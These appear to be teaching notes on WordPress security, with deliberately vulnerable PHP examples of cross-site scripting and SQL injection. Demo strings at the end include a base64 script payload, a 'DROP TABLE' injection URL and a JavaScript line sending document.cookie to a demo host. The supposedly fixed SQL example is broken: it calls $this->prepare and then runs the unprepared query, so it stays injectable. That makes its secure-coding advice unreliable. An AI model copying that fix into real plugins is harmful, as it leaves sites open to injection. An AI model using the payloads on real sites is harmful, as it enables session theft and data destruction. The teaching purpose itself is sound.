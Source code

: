## WordPress and Security

* WordPress tends to be secure
* Responses to security vulnerabilities are typically fast
* Assuming that the vulnerability is properly disclosed, most issues can be migitated quickly
* WordPress, in some circles, has a reputation for security weaknesses. This tends to be due to people installing plugins and themes that include these weaknesses, as opposed to WordPress itself

## Common Security Issues

### Cross Site Scripting (XSS)

* Allows attacker to inject client side script (JS) into a site
* Occurs when content printed to the screen is not properly escaped
* The following is exploitable with domain.com/?s=PHNjcmlwdD5hbGVydCgiSSBvd24gdGhpcyBzaXRlISIpOzwvc2NyaXB0Pg==

```php
function xss_all_the_things() {
	if ( is_search() ) {
		// Get the "s" parameter from the URL which can be anything
		$s = $_GET['s'];

		// Decode it
		$content = base64_decode( $s );

		// Print it
		echo $content;
	}
}

add_action( 'wp_footer', 'xss_all_the_things' );
```

* To prevent, always escape *all* content printed to the screen
* Common functions: `esc_url`, `esc_attr`, `esc_html`, `wp_kses_post`
* Previous example is rendered useless with:

```php
function xss_all_the_things() {
	if ( is_search() ) {
		// Get the "s" parameter from the URL which can be anything
		$s = $_GET['s'];

		// Decode it
		$content = base64_decode( $s );

		// Print it after escaping the important characters
		echo esc_html( $content );
	}
}

add_action( 'wp_footer', 'xss_all_the_things' );
```

### SQL injection

* Allows an attacker to execute arbitrary queries against a database.
* Occurs when SQL queries are not properly sanitized or prepared

```php
function sql_injection_ftw() {
	global $wpdb;

	// Grab the ID from the query variable
	$id = $_GET['id'];

	// Create the query and run it
	$sql = "SELECT * FROM wp_posts WHERE ID = $id";
	$results = $wpdb->query( $sql );

	// Display the results
	foreach ( $results as $key => $result ) {
		echo esc_html( $result->post_title ) . '<br />';
	}
}

add_action( 'wp_footer', 'sql_injection_ftw' );
```

* To prevent, use the WordPress APIs
* Sanitize/validate all input sent to the database
* Prepare your queries

```php
function sql_injection_ftw() {
	global $wpdb;

	// Grab the ID from the query variable
	$id = $_GET['id'];

	// Sanitize the variable
	$clean_id = absint( $id );

	// Create the query and run it
	$sql = "SELECT * FROM wp_posts WHERE ID = %s";

	// Prepare the query
	$query = $this->prepare( $sql, $clean_id );

	// Run the query
	$results = $wpdb->query( $sql );

	// Display the results
	foreach ( $results as $key => $result ) {
		echo esc_html( $result->post_title ) . '<br />';
	}
}

add_action( 'wp_footer', 'sql_injection_ftw' );
```

* Important demo strings

* http://wdim393f.dev/?s=2; DROP%20TABLE%20wp_links
* PHNjcmlwdD5hbGVydCgiSSBvd24gdGhpcyBzaXRlISIpOzwvc2NyaXB0Pg==
* var i = new Image(); i.src='http://wdim393f.dev/?testing=' + encodeURIComponent( document.cookie ); 